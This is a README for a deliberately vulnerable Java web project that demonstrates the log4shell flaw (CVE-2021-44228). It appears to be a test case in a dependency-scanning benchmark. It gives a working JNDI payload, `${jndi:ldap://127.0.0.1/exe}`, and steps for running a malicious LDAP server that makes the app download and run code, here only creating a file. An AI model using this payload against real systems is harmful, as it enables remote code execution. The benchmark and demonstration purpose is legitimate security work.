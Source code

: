 ## log4shell true positive

This is a simple web project with a log4shell vulnerability. 
The project defines a simple `scabench.HelloWorldService` get service returning a plain text string `hello world`.
The service does not expect parameters, and if parameters are encountered, an error 
is logged. 

The vulnerable dependency is [org.apache.logging.log4j:log4j-core:2.14.1](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.1), the vulnerability is [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). 


### Demonstrating the Vulnerability using a Test 

This requires unix or macos. It is easy to port this project to windowsm, 

A unit test is provided to demonstrate the vulnerability. The test requires a ldap server providing vulnerable code, the respective executable is provided by the project, it is defined in a separate project [https://github.com/jensdietrich/Log4J-RCE-Proof-Of-Concept](https://github.com/jensdietrich/Log4J-RCE-Proof-Of-Concept) based on [https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept](https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept).
The test fixture will handle startup and shutdown of the ldap server.

The test will create a file `foo` based on a command encoded embedded in the code of the ldap server the log4j connects to
(`touch foo`). This server can be controlled by an attacker. 

To run the test build the project with `mvn test`.

### Demonstrating running the Application

1. start the embedded web server: `mvn jetty:run`
2. start the included the ldap server: `java -jar dodgy-ldap-server.jar` (the vulnerable copde will download Java code from this server)
3. point the browser to `http://localhost:8080/`, this site contains a pre-populated form with a malicious payload `${jndi:ldap://127.0.0.1/exe}`
4. submit this form
5. this will create a file `foo` on the server




